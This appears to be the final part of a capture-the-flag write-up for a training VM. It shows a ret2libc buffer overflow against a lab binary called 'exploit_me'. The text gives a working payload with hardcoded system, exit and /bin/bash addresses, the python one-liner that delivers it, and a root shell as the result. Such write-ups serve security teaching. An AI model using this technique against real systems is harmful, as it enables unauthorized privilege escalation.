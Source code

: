 
### Final payload
1. **`'A' * 140`**: Fills the buffer and overflows to overwrite the saved `EBP`.
2. **`'\x60\xb0\xe6\xb7'`**: The address of `system` in libc.
3. **`'\xe0\xeb\xe5\xb7'`**: The fake return address `exit`, used to avoid a crash after `system` finishes.
4. **`'\x58\xcc\xf8\xb7'`**: The address of the string `/bin/bash` in libc, passed as an argument to `system`.


The payload used is:
```bash
./exploit_me $(python -c "print('A' * 140 + '\x60\xb0\xe6\xb7' + '\xe0\xeb\xe5\xb7' + '\x58\xcc\xf8\xb7')")
```

```bash
root@BornToSecHackMe:~$ id

uid=1005(zaz) gid=1005(zaz) euid=0(root) groups=0(root),1005(zaz)
``` 
